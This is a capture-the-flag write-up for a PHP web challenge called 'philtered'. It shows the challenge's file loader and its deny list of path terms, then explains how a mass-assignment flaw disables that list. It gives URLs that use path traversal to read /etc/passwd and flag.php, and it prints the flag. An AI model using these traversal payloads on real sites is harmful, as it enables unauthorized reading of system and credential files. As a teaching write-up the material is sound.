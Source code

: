 # 🏷️ philtered

**Category:** Web  
**Description:**  
> Can you phigure this one out?

---

## 📦 Challenge Files
We are given a `src.zip` containing some PHP files.  
The most important files are:

**flag.php**
```php
<?php $flag = 'DUCTF{TEST_FLAG}'; ?>
```
**index.php**
```php
<?php

class Config {
    public $path = 'information.txt';
    public $data_folder = 'data/';
}

class FileLoader {
    public $config;
    // idk if we would need to load files from other directories or nested directories, but better to keep it flexible if I change my mind later
    public $allow_unsafe = false;
    // These terms will be philtered out to prevent unsafe file access
    public $blacklist = ['php', 'filter', 'flag', '..', 'etc', '/', '\\'];
    
    public function __construct() {
        $this->config = new Config();
    }
    
    public function contains_blacklisted_term($value) {
        if (!$this->allow_unsafe) {
            foreach ($this->blacklist as $term) {
                if (stripos($value, $term) !== false) {
                    return true;    
                }
            }
        }
        return false;
    }

    public function assign_props($input) {
        foreach ($input as $key => $value) {
            if (is_array($value) && isset($this->$key)) {
                foreach ($value as $subKey => $subValue) {
                    if (property_exists($this->$key, $subKey)) {
                        if ($this->contains_blacklisted_term($subValue)) {
                            $subValue = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                        }
                        $this->$key->$subKey = $subValue;
                    }
                }
            } else if (property_exists($this, $key)) {
                if ($this->contains_blacklisted_term($value)) {
                    $value = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                }
                $this->$key = $value;
            }
        }
    }

    public function load() {
        return file_get_contents($this->config->data_folder . $this->config->path);
    }
}

// Such elegance
$loader = new FileLoader(); 
$loader->assign_props($_GET);

require_once __DIR__ . '/layout.php';

$content = <<<HTML
<nav style="margin-bottom:2em;">
    <a href="index.php">Home</a> |
    <a href="aboutus.php">About Us</a> |
    <a href="contact.php">Contact</a> |
    <a href="gallery.php">Gallery</a>
</nav>
<h2>Welcome to Philtered</h2>
HTML;

$content .= "<p>" . $loader->load() . "</p>";

$content .= "<h3>About Us</h3>";
$loader->config->path = 'aboutus.txt';
$content .= "<p>" . $loader->load() . "</p>";

$content .= "<h3>Our Values</h3>";
$loader->config->path = 'our-values.txt';
$content .= "<p>" . $loader->load() . "</p>";

$content .= <<<HTML
<h3>Contact</h3>
<ul>
    <li>Email: info</li>
    <li>Please don't talk to us, we don't like it</li>
</ul>
HTML;

render_layout('Philtered - Home', $content);
?>
```

We can see here that we have lfi with some filters 

```php
class Config {
    public $path = 'information.txt';
    public $data_folder = 'data/';
}

class FileLoader {
    public $config;
    // idk if we would need to load files from other directories or nested directories, but better to keep it flexible if I change my mind later
    public $allow_unsafe = false;
    // These terms will be philtered out to prevent unsafe file access
    public $blacklist = ['php', 'filter', 'flag', '..', 'etc', '/', '\\'];
    
    public function __construct() {
        $this->config = new Config();
    }
    
    public function contains_blacklisted_term($value) {
        if (!$this->allow_unsafe) {
            foreach ($this->blacklist as $term) {
                if (stripos($value, $term) !== false) {
                    return true;    
                }
            }
        }
        return false;
    }

    public function assign_props($input) {
        foreach ($input as $key => $value) {
            if (is_array($value) && isset($this->$key)) {
                foreach ($value as $subKey => $subValue) {
                    if (property_exists($this->$key, $subKey)) {
                        if ($this->contains_blacklisted_term($subValue)) {
                            $subValue = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                        }
                        $this->$key->$subKey = $subValue;
                    }
                }
            } else if (property_exists($this, $key)) {
                if ($this->contains_blacklisted_term($value)) {
                    $value = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                }
                $this->$key = $value;
            }
        }
    }

    public function load() {
        return file_get_contents($this->config->data_folder . $this->config->path);
    }
}
```
To get a working lfi we can do this `/index.php?allow_unsafe=1&config[path]=../../../../../../../etc/passwd`

this will make allow_unsafe set to true -> `public $allow_unsafe = false;` to disable the blacklist


<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/philtered/images/1.PNG?raw=true'>

also in this way we can control the path, getting the flag `/index.php?allow_unsafe=1&config[path]=../flag.php`

Solve on remote : 



FLAG : `DUCTF{h0w_d0_y0u_l1k3_y0ur_ph1lters?}`
